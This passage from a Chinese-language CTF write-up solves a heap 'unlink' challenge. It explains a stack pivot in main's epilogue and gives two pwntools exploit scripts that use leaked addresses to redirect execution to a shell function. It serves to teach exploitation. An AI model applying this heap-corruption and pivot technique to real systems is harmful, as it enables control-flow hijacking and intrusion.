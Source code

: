 1. 将B对象的fd和bk分别覆盖为`main`函数栈上保存的返回地址和`shell`函数地址，但unlink过程中需要两个地址是可写的。
2. 两个可写地址就覆盖为返回地址和堆地址，但程序开启了NX，无法在程序返回时跳转至堆执行我们的shellcode。

程序看似无解，但从反汇编的角度上还是看出了猫腻，在`main`函数结尾处存在不合常规的汇编指令，取栈上的内容再赋值给esp，相当于是帮我们做了一次栈迁移哇：

```
.text:080485EC sub     esp, 0Ch
.text:080485EF push    [ebp+var_C]
.text:080485F2 call    unlink
.text:080485F7 add     esp, 10h
.text:080485FA mov     eax, 0
.text:080485FF mov     ecx, [ebp+var_4]
.text:08048602 leave
.text:08048603 lea     esp, [ecx-4]
.text:08048606 retn
.text:08048606 ; } // starts at 804852F
.text:08048606 main 
```

这样事情就好办了，在栈上对应处写入内容可控的堆地址，函数返回前触发栈迁移至堆地址，最终`ret`至`shell`函数即可，利用脚本如下：

```python
from pwn import *

context.log_level = 'debug'

p = process('./unlink')
p.recvuntil('leak: ')
stack_addr = int(p.recvline(False), 16)
p.recvuntil('leak: ')
heap_addr = int(p.recvline(False), 16)
p.recvline()

#gdb.attach(p)
payload = ''
payload += p32(0x080484EB)
payload += p32(0x90909090) * 3
payload += p32(heap_addr+0xc)
payload += p32(stack_addr+0x10)

p.sendline(payload)
p.interactive()
```

目标平台上还有个`intended.py`，把unlink函数中栈上保存的前栈帧ebp值写为堆地址，在`main`函数结尾处栈迁移同样返回至`shell`函数，思路相同就是理解上有些麻烦：

```python
from pwn import *
context.arch = 'i386'    # i386 / arm
r = process(['/home/unlink/unlink'])
leak = r.recvuntil('shell!\n')
stack = int(leak.split('leak: 0x')[1][:8], 16)
heap = int(leak.split('leak: 0x')[2][:8], 16)
shell = 0x80484eb
payload = pack(shell)        # heap + 8  (new ret addr)
payload += pack(heap + 12)    # heap + 12 (this -4 becomes ESP at ret)
payload += '3333'        # heap + 16
payload += '4444'
payload += pack(stack - 0x20)    # eax. (address of old ebp of unlink) -4
payload += pack(heap + 16)    # edx.
r.sendline( payload )
r.interactive()
```
